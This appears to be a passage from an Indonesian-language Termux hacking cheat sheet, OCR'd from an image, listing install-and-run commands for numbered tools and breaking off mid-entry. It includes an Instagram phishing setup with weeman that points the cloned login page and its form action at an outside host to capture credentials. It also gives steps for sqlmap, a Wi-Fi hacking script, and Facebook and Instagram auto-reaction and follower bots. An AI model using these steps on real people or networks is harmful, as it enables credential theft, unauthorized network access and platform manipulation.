 https://findmyfbid.in/
Autoreaction Facebook
git clone https://github.com/tomiashari/fb-autoreaction.git
cd fb-autoreaction
python2 fb-autoreaction
•TOOLS²TERMUX.P3
21.TOOLS SQLMAP
apt update
apt install python
apt install python2
apt install git
git clone https://github.com/sqlmapproject/sqlmap
cd sqlmap
python2 sqlmap.py
=============================
22.TUTORIAL PHISING INSTAGRAM VIA TERMUX
pkg update
pkg upgrade
pkg install python2
pkg install git
clear
git clone https://github.com/evait-secutiry/weeman.git
cd
ls
cd weeman
python2 weeman.py
show
set url http://dewopanel.host22.com/masuk.php
set port 8080
set action_url http://dewopanel.host22.com/masuk.php
run
=============================
23.TUTORIAL MENAMBAH FOLLOWERS&LIKE INSTAGRAM
Kegunaan untuk menambah follower dan like ig
pkg update
pkg upgrade
pkg install python2
pkg install ruby
gem install lolcat
pkg install git
git clone https://github.com/Hanzelnutt/instabot
cd instabot
ls
pip2 install -r requirements.txt
bash instabot
=============================
24.TUTOR HACK WIFI KHUSUS ROOT
apt update
apt upgrade
apt install git
git clone https://github.com/esc0rtd3w/wifi-hacker
ls
cd wifi-hacker
ls
chmod +x wifi-hacker.sh
ls
./wifi-hacker.sh
=============================
25.TOOLS xNOT_FOUND *VER1*
apt update && apt upgrade
pkg install git
pkg install gem
pkg install figlet
gem install lolcat